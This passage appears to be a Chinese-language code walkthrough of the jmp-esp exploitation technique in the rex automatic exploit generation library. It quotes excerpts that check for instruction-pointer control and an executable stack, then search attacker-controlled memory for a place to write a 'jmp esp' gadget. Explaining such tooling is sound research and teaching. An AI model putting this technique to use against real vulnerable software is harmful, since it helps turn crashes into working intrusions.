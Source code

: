 ```python
def apply(self, **kwargs):
    #  判断崩溃的漏洞类型不是完全/部分EIP 控制的话
    if not self.crash.one_of([Vulnerability.IP_OVERWRITE, Vulnerability.PARTIAL_IP_OVERWRITE]):
        raise CannotExploit("[%s] cannot control ip" % self.name)

    #  如果栈内存没有执行权限就的话
    if not self.crash.project.loader.main_object.execstack:
        raise CannotExploit("[%s] stack is not executable" % self.name)

    #  获取不同平台的JMPSP 机器码
    try:
        jmpsp_stub = self.shellcode.get_shellcode('jmpsp')
    except NoSuchShellcode as e:
        raise CannotExploit("[%s] %s" % (self.name, e))
#  ...
```

  关于jmpsp_stub 的Gadget 代码,我们可以在rex/exploit/shellcodes/allarch_jmpsp.py 文件下找到,在此只展示X86 平台的Jmp ESP Gadget .

```python
class X86JmpSP(Shellcode):
    os = ["cgc", "unix"]
    arches = ["X86"]
    name = "jmpsp"
    asm = "jmp esp;"
    code = b"\xff\xe4"
```

  获取完JMP ESP Gadget 之后,CallJmpSPShellcode.apply() 函数接下来就判断Gadget 能否被写进内存中.

```python
#  apply() 函数
    jmpsp_addr, jmpsp_constraint = self._write_global_data(jmpsp_stub)  #  判断JMP ESP Gadget 代码能否被写到内存中

    if jmpsp_addr is None:  #  如果不能写JMP ESP Gadget
        try:
            jmpsp_addr, jmpsp_constraint = self._read_in_global_data(jmpsp_stub)  #  搜索有没有满足的Gadget ,构造ROP 利用链
        except CannotExploit as e:
            raise CannotExploit("[%s] cannot call read, %s" % (self.name, e))
        if jmpsp_addr is None:
            raise CannotExploit("[%s] cannot write in 'jmp sp'" % self.name)

    #  添加约束
    self.crash.state.add_constraints(jmpsp_constraint)  #  对约束进行求解
```

  _write_global_data() 函数主要是对能够被控制的内存进行约束求解,目的在于判断我们可以控制的内存中能否插入这个Gadget .

```python
def _write_some_data(self, data, control):
    #  遍历用户可控的内存列表
    for base in control:
        for addr in range(base, base+control[base] - len(data) + 1):  #  不断递归内存地址
            constraint = self.crash.state.memory.load(addr, len(data)) == data  #  到这一步是为了判断内存的内容是否可控为指定的值

            if self.crash.state.solver.satisfiable(extra_constraints=(constraint,)):  #  判断约束是否有解
                data_str_addr = addr
                data_str_constraint = constraint

                return data_str_addr, data_str_constraint  #  如果对于constraint 这个解有满足的条件,那么就返回地址和这个约束条件

    return None, None
```